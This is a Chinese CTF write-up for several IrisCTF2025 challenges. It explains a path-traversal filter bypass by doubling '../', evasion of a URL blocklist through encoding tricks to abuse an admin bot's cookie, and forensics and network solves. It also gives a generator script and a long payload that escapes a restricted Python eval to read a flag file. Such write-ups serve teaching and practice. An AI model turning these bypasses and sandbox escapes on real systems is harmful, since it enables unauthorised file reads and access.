










# IrisCTF2025部分wp-先知社区

> **来源**: https://xz.aliyun.com/news/16500  
> **文章ID**: 16500

---

## Web

### Password Manager

源码

```
...
var PathReplacer = strings.NewReplacer(
    "../", "",
)
...

func main() {
    // Connect to MySQL
    db, err := sql.Open("mysql", "readonly_user:password@tcp(127.0.0.1:3306)/uwu")
...

    // Initialize users var
    file, err := os.Open("./users.json")
    if err != nil {
        fmt.Printf("Error reading users.json: %v\n", err)
        return
    }
...
}
...

func isLoggedIn(w http.ResponseWriter, r *http.Request) (bool, error) {
    var auth Auth
    authCookie, err := r.Cookie("auth")
    if err != nil {
        w.WriteHeader(http.StatusInternalServerError)
        return false, err
    }
...

    return validateLogin(auth.User, auth.Password), nil
}

func getpasswords(w http.ResponseWriter, r *http.Request) {
...

    res, err := DB.Exec("SELECT * FROM passwords")
...
}

func homepage(w http.ResponseWriter, r *http.Request) {
    http.ServeFile(w, r, "./pages/index.html")
}

func notfound(w http.ResponseWriter, _ *http.Request) {
    fmt.Fprintf(w, "Hey! No page found!")
}

func pages(w http.ResponseWriter, r *http.Request) {
    // You. Shall. Not. Path traverse!
    path := PathReplacer.Replace(r.URL.Path)

    if path == "/" {
        homepage(w, r)
        return
    }

...
}
```

可以看到 users.json 是存储了用户密码的，可以路径穿越读，但是

```
var PathReplacer = strings.NewReplacer(
    "../", "",
)
```

将`../`替换为了空，本地起个环境调试一下



发现只替换了一次，双写绕过就行，拿到skat账户密码，登录后第二个信息就是flag



### Political

chal.py

```
from flask import Flask, request, send_file
import secrets

app = Flask(__name__)
FLAG = "irisctf{testflag}"
ADMIN = "redacted"

valid_tokens = {}

@app.route("/")
def index():
    return send_file("index.html")

@app.route("/giveflag")
def hello_world():
    if "token" not in request.args or "admin" not in request.cookies:
        return "Who are you?"

    token = request.args["token"]
    admin = request.cookies["admin"]
    if token not in valid_tokens or admin != ADMIN:
        return "Why are you?"

    valid_tokens[token] = True
    return "GG"

@app.route("/token")
def tok():
    token = secrets.token_hex(16)
    valid_tokens[token] = False
    return token

@app.route("/redeem", methods=["POST"])
def redeem():
    if "token" not in request.form:
        return "Give me token"

    token = request.form["token"]
    if token not in valid_tokens or valid_tokens[token] != True:
        return "Nice try."

    return FLAG
```

思路很简单，用 admin 的 cookie 访问`/giveflag`路由，就能让 token 为 true ，然后再提交到 redeem 路由就行

题目还给了一个 nc 连的端口，其源码为 bot.js

```
...

(async function(){
  const browser = await puppeteer.launch(puppeter_args);

  function ask_for_url(socket) {
      socket.state = 'URL';
      socket.write('Please send me a URL to open.\n');
  }

  async function load_url(socket, data) {
    let url = data.toString().trim();
    console.log(`checking url: ${url}`);
    // replace with your server as needed
    if (!url.startsWith('http://localhost:1337/') && !url.startsWith('https://localhost:1337/')) {
      socket.state = 'ERROR';
      socket.write('Invalid URL (must start with http:// or https://).\n');
      socket.destroy();
      return;
    }
    socket.state = 'LOADED';
    let cookie = JSON.parse(fs.readFileSync('/home/user/cookie'));

    const context = await browser.createBrowserContext();
    const page = await context.newPage();
    await page.setJavaScriptEnabled(false);
    await page.setCookie(cookie);
    socket.write(`Loading page ${url}.\n`);
    setTimeout(()=>{
      try {
        context.close();
        socket.write('timeout\n');
        socket.destroy();
      } catch (err) {
        console.log(`err: ${err}`);
      }
    }, BOT_TIMEOUT);
    await page.goto(url);
  }

  var server = net.createServer();
  server.listen(1338);
  console.log('listening on port 1338');

  server.on('connection', socket=>{
    socket.on('data', data=>{
      try {
        if (socket.state == 'URL') {
          load_url(socket, data);
        }
      } catch (err) {
        console.log(`err: ${err}`);
      }
    });

    try {
      ask_for_url(socket);
    } catch (err) {
      console.log(`err: ${err}`);
    }
  });
})();
```

只允许本地的访问，且将访问时的 cookie 加到本地的`/home/user/cookie`中，也就相当于是用 admin 的 cookie 访问了`/giveflag`路由，此时带上的 token 就变为了 true，但有个policy.json

```
{
    "URLBlocklist": ["*/giveflag", "*?token=*"]
}
```

是个黑名单，路由限制的话用反斜杠绕过，或者加个`%2f`也行。参数名限制用url编码就能绕过，或者再加个参数，比如`?a=b&token=11`



然后在`/redeem`路由提交这个token就行

## Forensics

### deldeldel

是个键盘流量，用套神的工具梭了



得到

```
Hheey<SPACE><SPACE><SPACE>AAali<DEL><DEL>licce!<SPACE>Ii<SPACE><SPACE>tthink<SPACE><SPACE>Ii''m<SPACE><SPACE>ssupo<DEL>ppooseed<SPACE><SPACE>too<SPACE><SPACE>giivee<SPACE>yoou<SPACE><SPACE><SPACE>tiss<SPACE>fllaag"<RET><RET>iriisctfF{[tthis_ajjd<DEL><DEL><DEL>keyloggeer_iisS_boo<DEL><DEL><DEL>too_hard_two<DEL><DEL><DEL>too<DEL><DEL><DEL>to_use}<RET>
```

处理一下得到

```
Hey Alice! I think I'm supposed to give you this flag"
irisctf{this_keylogger_is_too_hard_to_use}
```

### Windy Day

是个win10的镜像，用vol3看了一下没看出啥东西，还是string大法好，先看下 irisctf base64编码后的前几个字符能不能匹配到

```
strings memdump.mem | grep "aXJpc"
```

看到一个比较长的，继续匹配（其实从这就看出了应该是个浏览器取证）



```
strings memdump.mem | grep "aXJpc2N0ZntpX2FtX2FuX2lkaW90X3dpdGhfYmFkX21lb"
```

直接就拿到flag了



```
irisctf{i_am_an_idiot_with_bad_memory}
```

还是axiom好用



## Networks

### No Shark?

得到个txt，扔到cyberchef中辨别出是个tcp包，那就是hex转pcapng文件了，python脚本

```
from scapy.all import *
import binascii

with open(r"E:\IrisCTF2025\net\noshark\noshark\noshark.txt", "r") as file:
    hex_data = file.readlines()

hex_data = [line.strip() for line in hex_data if line.strip()]

packets = []
for packet_hex in hex_data:
    try:
        packet_bin = binascii.unhexlify(packet_hex)
        packets.append(packet_bin)
    except binascii.Error as e:
        print(f"Error decoding hex: {e}")

if packets:
    wrpcap(r"E:\IrisCTF2025\net\noshark\noshark\output.pcapng", packets)
    print("Successfully created output.pcapng")
else:
    print("No valid packets found.")
```

打开流量包一看，JFIF开头，一眼图片头



最后得到图片



```
irisctf{welcome_to_net_its_still_ez_to_read_caps_without_wireshark}
```

## Misc

### Cobra's Den

chal.py

```
# flag stored at 'flag' in current dir

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")
```

要满足四个条件

1. 函数长度小于等于4
2. 输入字符在白名单内
3. 输入字符长度不得超过1115
4. 输入中的`.`不能超过一个

先看下能用哪些函数

```
import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
for f in filtered_builtins:
    if all(c in whitelist for c in f):
        print(f)
#abs
chr
hash
open
ord
repr
```

提示了`flag stored at 'flag' in current dir`，有open有chr，python3中`~([]<[])`可以拿到-1，加上有abs，`abs([]<[])`拿到0，`abs(~([]<[]))`拿到1，可以用chr函数加数字来ascii转字符，然后直接open().read()就行了，把国城线下的脚本改一下就能用

```
import sys

def brainfuckize(nb):
    zero = "abs([]<[])"
    one = "abs(~([]<[]))"
    minus_one = "~([]<[])"
    two = "abs((~([]<[]))+~([]<[]))"

    if nb == 0:
        return zero
    elif nb == 1:
        return one
    elif nb == -1:
        return minus_one
    elif nb == 2:
        return two

    if nb % 2:
        return f"~({brainfuckize(~nb)})"
    else:
        return f"({brainfuckize(nb//2)}<<{one})"

def brainfuckize_char(char):
    ascii_code = ord(char)
    brainfuck_num = brainfuckize(ascii_code)
    return f"chr({brainfuck_num})"

def brainfuckize_string(string):
    return '+'.join(brainfuckize_char(char) for char in string)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 calc.py <string>")
        sys.exit(1)

    try:
        input_string = sys.argv[1]
        if not input_string:
            print("Please provide a non-empty string.")
            sys.exit(1)

        result = brainfuckize_string(input_string)
        print("Brainfuck representation of '{}':".format(input_string))
        print(result)
    except ValueError:
        print("Invalid input. Please provide a valid string.")
        sys.exit(1)
```

`python calc.py flag`得到payload

```
chr((~(((~(((~(((~([]<[])<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[]))))+chr(((~(((~((~(((~([]<[])<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[]))))+chr(~((~(((((~(((~([]<[])<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[])))<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))))+chr(~((((~(((~(((~([]<[])<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[]))))<<abs(~([]<[])))<<abs(~([]<[])))<<abs(~([]<[])))))
```


